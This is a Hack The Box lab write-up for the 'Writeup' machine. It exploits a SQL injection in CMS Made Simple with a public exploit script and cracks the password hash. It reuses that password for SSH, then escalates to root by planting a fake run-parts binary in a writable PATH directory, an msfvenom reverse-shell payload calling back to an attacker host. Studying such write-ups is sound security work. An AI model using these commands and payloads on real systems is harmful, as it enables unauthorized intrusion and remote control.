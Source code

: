 ```yaml
---
layout: single
title: Writeup - Hack The Box
excerpt: "Writeup starts off easy with an unauthenticated vulnerability in CMS Made Simple that I exploit to dump the database credentials. After cracking the user hash, I can log in to the machine because the user re-used the same password for SSH. The priv esc is pretty nice: I have write access to `/usr/local` and I can write a binary payload in there that gets executed by run-parts when I SSH in because it's called without the full path. Another nice box by jkr."
date: 2019-10-12
classes: wide
header:
  teaser: /assets/images/htb-writeup-writeup/writeup_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - sqli
  - cms
---
```


![](/assets/images/htb-writeup-writeup/writeup_logo.png)

Writeup starts off easy with an unauthenticated vulnerability in CMS Made Simple that I exploit to dump the database credentials. After cracking the user hash, I can log in to the machine because the user re-used the same password for SSH. The priv esc is pretty nice: I have write access to `/usr/local` and I can write a binary payload in there that gets executed by run-parts when I SSH in because it's called without the full path. Another nice box by jkr.

## Summary

- Unauthenticated SQL injection in CMS Made Simple gives us the password hash which we can crack
- The CMS user / password can be used to SSH in to the server (password re-use)
- The `/usr/local/bin` directory is writable by low-priv user and we can hijack `run-parts` which is run by root when SSHing in (path abuse)

## Tools/Blogs used

- CMS Made Simple < 2.2.10 - SQL Injection (exploits/php/webapps/46635.py)

### Portscan

```
# nmap -p- 10.10.10.138
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-08 22:30 EDT
Nmap scan report for writeup.htb (10.10.10.138)
Host is up (0.018s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 105.16 seconds
```

### Website enumeration

The website contains information about fail2ban or a similar kind of script running to prevent 40x errors. This means that if we try to dirbust the site we'll probably get banned.

![](/assets/images/htb-writeup-writeup/1.png)

So I checked `robots.txt` and found the following:

```
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: *
Disallow: /writeup/
```

Checking out `http://10.10.10.138/writeup/` I see it's some kind of barebone webpage.

![](/assets/images/htb-writeup-writeup/2.png)

The links just display different writeups for previous HTB boxes. I couldn't trigger any LFI, RFI or SQL injection from `/writeup/index.php?page=`

There's a hint at the bottom of the page that it's *NOT* made with vim.

![](/assets/images/htb-writeup-writeup/3.png)

Checking out the source code, I can see it's made with CMS Made Simple.

![](/assets/images/htb-writeup-writeup/4.png)

### SQL injection in CMS

Checking out searchsploit, I see a whole bunch of exploits for that CMS.

![](/assets/images/htb-writeup-writeup/5.png)

The one I highlighted above is an Unauthenticated SQL Injection that allows an attacker to dump the username and password hash from the database. To exploit it, we just need to pass the URI of the CMS and the wordlist we'll use to crack the password hash:

`python exploit.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt`

![](/assets/images/htb-writeup-writeup/6.png)

We just found the password for user `jkr`: `raykayjay9`

The CMS administration webpage at `http://10.10.10.138/writeup/admin` is protected by an additional HTTP basic web authentication. This is not part of the standard CMS deployment so it was probably added by the box creator. I'm not able to authenticate using the credentials I found in the database and if I try to bruteforce it I get locked out by fail2ban.

However the credentials do work with SSH and I'm able to get a shell and the first flag:

```
# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ cat user.txt
d4e493...
```

### Privesc

My user is part of the following groups: `uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)`

I ran through the standard Linux enumeration, checking permissions on files and directories, and noticed that I have write access to folders inside `/usr/local`:

```
jkr@writeup:~$ ls -l /usr/local
total 56
drwx-wsr-x 2 root staff 20480 Apr 19 04:11 bin
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x 4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx 1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 sbin
drwxrwsr-x 7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 src
```

However, I can't see the contents of `/usr/local/bin` and `/usr/local/sbin`. This is not a standard Linux distro configuration so the box creator probably changed the permissions on purpose so HTB players can't piggy-back on other players binaries.

I copied `pspy` to the box and found a cronjob running every minute:

![](/assets/images/htb-writeup-writeup/7.png)

I don't have access to the content of the script but it's safe to assume that it deletes files or folders somewhere on the system. I created a test file inside `/usr/local/bin` to see if the script would delete it. After a minute, I saw that the file was removed:

```
jkr@writeup:/usr/local/bin$ echo test > test
jkr@writeup:/usr/local/bin$ cat test
test
jkr@writeup:/usr/local/bin$ cat test
test
jkr@writeup:/usr/local/bin$ cat test
cat: test: No such file or directory
```

Because we can write files into `/usr/local/bin` and `/usr/local/sbin`, we can potentially get RCE since the default path for users is the following:

```
jkr@writeup:/usr/local/bin$ cat /etc/profile
# /etc/profile: system-wide .profile file for the Bourne shell (sh(1))
# and Bourne compatible shells (bash(1), ksh(1), ash(1), ...).

if [ "`id -u`" -eq 0 ]; then
  PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
else
  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
```

`/usr/local/bin` and `/usr/local/sbin` are preferred over the other paths so it's clear what we need to do here:

 - Find the filename of something that is executed by root (that filename must be executed without the full path)
 - Find the trigger for executing that command as root

I thought I could use `grep` or `iptables` but that didn't work. I think it's because the programs are executed by fail2ban which is started with a modified path as per `/etc/init.d/fail2ban`:

```
PATH=/usr/sbin:/usr/bin:/sbin:/bin
```

I also noticed that the `run-parts` program is executed whenever I SSH in:

![](/assets/images/htb-writeup-writeup/8.png)

> run-parts runs all the executable files named within constraints described below, found in directory  directory. Other files and directories are silently ignored.

I can't make run-parts run arbitrary binaries since I can't write `/etc/update-motd.d/` but because the program is run without the full path I can write my own `run-parts` binary to `/usr/local/bin` or `/usr/local/sbin` and it will be executed instead of the real one because the directory is located in front in the PATH variable definition.

For the malicious binary, I use a standard linux reverse shell payload generated with Metasploit:
```
# msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=10.10.14.7 LPORT=4444
chmod +x ./shell
```

I just need to upload the file to `/usr/local/bin/run-parts` and SSH in to trigger a callback and get root privileges.

![](/assets/images/htb-writeup-writeup/9.png)

